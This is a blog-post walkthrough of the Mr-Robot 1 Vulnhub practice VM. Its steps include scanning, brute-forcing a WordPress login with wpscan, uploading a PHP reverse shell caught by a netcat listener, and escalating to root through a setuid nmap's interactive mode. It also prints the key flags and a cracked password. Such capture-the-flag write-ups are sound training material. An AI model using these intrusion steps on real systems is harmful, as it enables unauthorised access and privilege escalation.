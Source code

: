 ```yaml
---
layout: post
title: Mr-Robot 1 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from Jason
date: 2017-05-08 00:00:00
lastupdated: 
category: Vulnhub
tags: [vulnhub, walkthrough]
bigimg: /img/walkthrough3.jpg
comments: true
---
```


Today I'm publishing my walkthrough against the vm hosted on vulnhub called [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/) by Jason.

First of all in the [webpage](https://www.vulnhub.com/entry/mr-robot-1,151/)'s description we can read that the vm is based on the tv series Mr Robot and there are three hidden keys to find.

So I started to find the vm's ip by lauching netdiscover command:
![Net Discover](/assets/mr-robot/netdiscover.png)

Then, I launched nmap:
![IP Scanning](/assets/mr-robot/nmap.png)

The scanning result reveals that the open ports are 80 and 443 and the port 22 is closed.
Opening the web server I could see a beautiful website and if we write the commands listed on the fake terminal it shows more videos:
![Web Site](/assets/mr-robot/website.png)

I opened source code and I saw some js scripts and one of these looked like it was making you write in window's log. Nothing interesting:
![Web Site Source](/assets/mr-robot/website-source.png)

Then we can see if nikto reveals something:
![Nikto](/assets/mr-robot/nikto.png)

Good! Nikto said that Apache mod_negotiation is enabled with MultiViews. This means if the server receives a request for a specific folder inexistent, then the server reads the directory looking for files named name_folder.*, and effectively fakes up a type map which names all those files, assigning them the same media types and content-encodings it would have if the client had asked for one of them by name. It then chooses the best match to the client's requirements.
Nikto also said that the website is wordpress so we can launch wpscan for further informations. Before starting wpscan I visited robots.txt in the web server, where I found two interesting files:
![Robots.txt](/assets/mr-robot/robots.png)

File key-1-of-3.txt is the first key found and also another file named fsocity.dic, which supposedly is a wordlist. Thus I launched wpscan:
![WpScan](/assets/mr-robot/wpscan.png)

Perfect! The first scan result reveals a vulnerability and a wordpress installation! I tried to login with some users and obviously I found one user named elliot! So I launched wpscan to crack elliot's password with the previous wordlist fsocity.dic with slight changes :smirk:. This was possible because the wordlist contained some repeated passwords.
![Cracking Password](/assets/mr-robot/cracking-password.png)

After less than two minutes I found elliot's password!! Now we can try to login with these credentials and then we proceed to upload the /usr/share/webshells/php-reverse shell.php file, having already changed the reverse ip address:
![Upload Reverse Shell](/assets/mr-robot/upload-reverse-shell.png)

I launched the netcat listener and, after triggering the appropriate bash python shell, I listed the home folder and I found the second key file and a md5 password file. Unfortunately the second key was only readable by the root.

```plaintext
root@kali:~/Scrivania/reports/mrrobot# nc -nlvp 1234
listening on [any] 1234 ...

connect to [192.168.1.159] from (UNKNOWN) [192.168.1.10] 59837
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 02:51:42 up  4:05,  0 users,  load average: 0.00, 0.05, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ $ 
$ python -c "import pty; pty.spawn('/bin/bash');"
daemon@linux:/$ ls -l home
ls -l home
total 4
drwxr-xr-x 2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```

I opened this [website](https://hashkiller.co.uk/md-decrypter.aspx) and I tried to find the md5 hash:
![MD5 Decrypter](/assets/mr-robot/md5-decrypter.png)

After this step, I logged in as robot and I could finally see the second key!!

```plaintext
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

At this point I wanted to try to seek setuid files that might be exploitable.

```plaintext
robot@linux:~$ find / -perm +6000 2> /dev/null
find / -perm +6000 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/declaration
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/ca-certificates
```

An old nmap version is installed.. We can now use the interactive mode inside nmap and then we can view who we are.. Yes, we are root!! :smiley:

```plaintext
daemon@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !ls -l /root
!ls -l /root
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
waiting to reap child : No child processes
nmap> !cat /root/key-3-of-3.txt
!cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
waiting to reap child : No child processes
```

I browsed into the root folder and I found the third key!!
